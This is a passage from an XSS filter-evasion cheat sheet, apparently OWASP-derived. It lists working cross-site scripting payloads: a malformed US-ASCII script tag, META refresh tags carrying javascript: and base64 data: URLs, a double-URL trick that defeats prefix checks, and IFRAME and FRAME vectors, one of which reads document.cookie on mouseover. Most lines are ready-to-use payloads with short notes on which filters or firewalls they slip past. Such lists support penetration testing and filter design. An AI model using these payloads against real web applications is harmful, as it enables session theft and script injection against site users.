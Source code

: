 US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.

    ¼script¾alert(¢XSS¢)¼/script¾

## META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

    <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

### META using data

Directive URL scheme. This is nice because it also doesn't have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

    <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

### META with additional URL parameter

If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

    <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

    <IFRAME SRC="javascript:alert('XSS');"></IFRAME>

## IFRAME Event based

IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)

    <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>

## FRAME

Frames have the same sorts of XSS problems as iframes

    <FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>

## TABLE
